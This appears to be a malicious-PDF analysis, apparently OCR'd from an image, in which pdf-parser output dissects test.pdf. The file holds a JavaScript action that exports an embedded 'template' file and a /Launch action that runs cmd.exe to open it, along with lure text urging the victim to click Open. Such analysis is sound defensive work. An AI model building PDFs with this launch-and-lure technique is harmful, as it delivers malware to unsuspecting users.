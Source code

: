 ```
Comment: 3
XREF: 2
Trailer: 2
StartXref: 2
Indirect object: 12
  4: 4, 5, 6, 8
 /Action 2: 9, 10
 /Catalog 2: 1, 1
 /Filespec 1: 7
 /Page 2: 3, 3
 /Pages 1: 2
Search keywords:
 /JS 1: 9
 /JavaScript 1: 9
 /AA 1: 3
 /OpenAction 1: 1
 /Launch 1: 10
```
* pdf-parser --search javascript --raw /var/www/html/test.pdf
```
obj 9 0
 Type: /Action
 Referencing: 
<</S/JavaScript/JS(this.exportDataObject({ cName: "template", nLaunch: 0 });)/Type/Action>>

  <<
    /S /JavaScript
    /JS (this.exportDataObject({ cName: "template", nLaunch: 0 });)
    /Type /Action
  >>
```
* pdf-parser --object 10 --raw --filter /var/www/html/test.pdf
```
obj 10 0
 Type: /Action
 Referencing: 
<</S/Launch/Type/Action/Win<</F(cmd.exe)/D(c:\\windows\\system32)/P(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\template.pdf" (cd "Desktop"))&(if exist "My Documents\\template.pdf" (cd "My Documents"))&(if exist "Documents\\template.pdf" (cd "Documents"))&(if exist "Escritorio\\template.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\template.pdf" (cd "Mis Documentos"))&(start template.pdf)

To view the encrypted content please tick the "Do not show this message again" box and press Open.)>>>>

  <<
    /S /Launch
    /Type /Action
    /Win
      <<
        /F (cmd.exe)
        /D '(c:\\\\windows\\\\system32)'
        /P (
        /Q '/C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\\\template.pdf" (cd "Desktop"))&(if exist "My Documents\\\\template.pdf" (cd "My Documents"))&(if exist "Documents\\\\template.pdf" (cd "Documents"))&(if exist "Escritorio\\\\template.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\\\template.pdf" (cd "Mis Documentos"))&(start template.pdf)\n\n\n\n\n\n\n\n\n\nTo view the encrypted content please tick the "Do not show this message again" box and press Open.)'
      >>
  >>

```